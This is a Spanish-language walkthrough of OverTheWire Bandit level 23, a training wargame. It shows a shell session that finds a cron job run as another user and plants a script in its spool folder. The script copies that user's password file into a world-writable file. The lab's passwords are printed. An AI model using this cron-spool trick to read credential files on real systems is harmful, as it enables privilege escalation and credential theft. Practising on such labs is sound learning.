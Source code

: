 Level 23
# Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
# Datos  de Acceso 
ssh bandit23@**bandit.labs.overthewire.org** -p2220

User: bandit23 Pass: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
# Solucion 

```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$  cat /usr/bin/cronjob_banditb_24
cat: /usr/bin/cronjob_banditb_24: No such file or directory
bandit23@bandit:~$ mkdir /tmp/bandscho
bandit23@bandit:~$ cd /tmp/bandscho
bandit23@bandit:/tmp/bandscho$ echo "cat /etc/bandit_pass/bandit24 > /tmp/bandscho/password"
cat /etc/bandit_pass/bandit24 > /tmp/bandscho/password
bandit23@bandit:/tmp/bandscho$  echo "cat /etc/bandit_pass/bandit24 > /tmp/bandscho/password" > bandscho.sh
bandit23@bandit:/tmp/bandscho$ cat bandscho.sh
cat /etc/bandit_pass/bandit24 > /tmp/bandscho/password
bandit23@bandit:/tmp/bandscho$ chmod 777 bandscho.sh bandscho.sh
bandit23@bandit:/tmp/bandscho$ touch password
bandit23@bandit:/tmp/bandscho$ chmod 666 password
bandit23@bandit:/tmp/bandscho$ ls -la
total 124
drwxrwxr-x   2 bandit23 bandit23   4096 Mar  7 18:16 .
drwxrwx-wt 711 root     root     114688 Mar  7 18:16 ..
-rwxrwxrwx   1 bandit23 bandit23     55 Mar  7 18:16 bandscho.sh
-rw-rw-rw-   1 bandit23 bandit23      0 Mar  7 18:16 password
bandit23@bandit:/tmp/bandscho$ cp bandscho.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/bandscho$ date
Tue Mar  7 06:16:46 PM UTC 2023
bandit23@bandit:/tmp/bandscho$ ls -la
total 124
drwxrwxr-x   2 bandit23 bandit23   4096 Mar  7 18:16 .
drwxrwx-wt 711 root     root     114688 Mar  7 18:16 ..
-rwxrwxrwx   1 bandit23 bandit23     55 Mar  7 18:16 bandscho.sh
-rw-rw-rw-   1 bandit23 bandit23      0 Mar  7 18:16 password
bandit23@bandit:/tmp/bandscho$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/bandscho$

```

# Notas Adicionales
- cat se usa para ver el contenido de un archivo.
- echo sirve para dadas en su salida estándar, con un espacio en blanco entre cada una y un carácter "salto de línea" después de la última cadena
- touch se usa principalmente para crear archivos vacíos y cambiar marcas de tiempo de archivos o carpetas.
- chmod nos da la posibilidad de poder cambiar los permisos de los archivos y carpetas de la máquina con Linux.